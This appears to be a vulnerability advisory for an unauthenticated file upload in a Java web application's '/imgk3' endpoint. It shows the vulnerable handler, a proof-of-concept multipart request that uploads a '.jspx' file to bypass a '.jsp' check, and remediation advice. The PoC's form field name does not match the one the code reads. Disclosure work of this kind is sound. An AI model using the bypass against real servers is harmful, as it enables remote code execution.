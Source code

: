 ![image-20250208160614809](./assets/image-20250208160614809.png)

![image-20250208160539277](./assets/image-20250208160539277.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
The application allows unauthenticated users to upload files via the `/imgk3` endpoint. The uploaded files are not properly validated, which can lead to remote code execution (RCE) if a malicious file is uploaded.

### Affected Endpoint:
`/imgk3`

### Vulnerability Type:
Unauthenticated RCE

### Vulnerable Code:
```java
@RequestMapping({"/imgk3"})
@ResponseBody
public String imgk3(HttpServletRequest request, HttpServletResponse response) {
    try {
        String referer = request.getHeader("referer");
        Pattern p = Pattern.compile("([a-z]*:(//[^/?#]+)?)?", 2);
        Matcher mathcer = p.matcher(referer);
        if (mathcer.find()) {
            StringBuffer buffer = new StringBuffer();
            String callBackPath = mathcer.group();
            MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
            MultipartFile imgFile = multipartRequest.getFile("imgFile");
            if (imgFile.getName().endsWith(".jsp")) {
                return null;
            }

            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveImage(imgFile, paths);
            json.addProperty("url", import_root + json.get("url").getAsString());
            if (!"0".equals(json.get("error").toString())) {
                buffer.append("<html><head><title>Insert Image</title><meta http-equiv='content-type' content='text/html; charset=utf-8'/></head><body>");
                buffer.append("<script type='text/javascript'>");
                buffer.append("alert('").append(json.get("message")).append("!')");
                buffer.append("</script>");
                buffer.append("</body></html>");
            } else {
                buffer.append("<html><head>\n<meta http-equiv=\"Content-Type\" content=\"text/html; charset=UTF-8\">\n<title>PIC UPLOAD</title>\n<script type=\"text/javascript\">\n    var upload_callback = function(){\n        var iframe_proxy = document.createElement('iframe');\n        iframe_proxy.style.display = 'none';\n        iframe_proxy.src = '" + callBackPath + "/kindeditor/plugins/image/call_back.html#'+encodeURIComponent('" + json + "');\n        document.body.appendChild(iframe_proxy);\n    };\n</script>\n</head>\n<body onload=\"upload_callback();\">\n\n</body></html>");
            }

            return buffer.toString();
        }

        logger.info("imgk3 ok");
    } catch (Exception var12) {
        logger.error("imgk3 error", var12);
    }

    return null;
}
```

### Proof of Concept (PoC):
```http
POST /imgk3 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.jspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to upload a JSP file with a different extension (e.g., `.jspx`). This file can contain malicious code, which, when executed by the server, can lead to remote code execution. This allows the attacker to execute arbitrary commands on the server, potentially compromising the entire system.

### Recommendation:
1. **File Type Validation**: Implement strict file type validation to ensure only allowed file types are uploaded.
2. **Authentication and Authorization**: Ensure that file upload functionality is restricted to authenticated and authorized users.
3. **File Content Scanning**: Use antivirus or antimalware tools to scan the content of uploaded files for potential threats.
4. **File Storage**: Store uploaded files outside the web root to prevent direct access via the web server.

### Conclusion:
The unauthenticated file upload functionality in the `/imgk3` endpoint poses a significant security risk, allowing attackers to execute arbitrary code on the server. It is crucial to implement proper validation, authentication, and security measures to mitigate this vulnerability.

### References:
- [OWASP File Upload Guidelines](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

